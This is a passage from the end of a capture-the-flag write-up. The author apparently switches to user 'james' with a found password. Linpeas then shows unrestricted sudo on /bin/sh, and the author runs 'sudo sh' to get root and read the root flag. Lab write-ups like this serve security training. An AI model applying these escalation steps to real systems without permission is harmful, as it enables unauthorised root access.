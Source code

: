 ```bash
```

Found a password. let's try it.

```bash
svc@mentor:/tmp$ su james 
Password: 
james@mentor:/tmp$ 
james@mentor:/tmp$ 
```

## PRIVILEGE ESCALATION \[ROOT]

After running linpeas found that james id able to run all the root commands using sh.

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh

```

So we can just escalate our privelleges using small command like `sudo sh` and now we are root.

```bash
james@mentor:/tmp$ sudo sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
logins.log  root.txt  scripts  snap
# cat root.txt
26cfd40d713b1ce510863d56afff25c5
# 

```

Now we have rooted the box.

Now we have root privilege's on the box. Hope you liked it. Follow me on [Twitter](https://twitter.com/Mujahid\_Hashar).
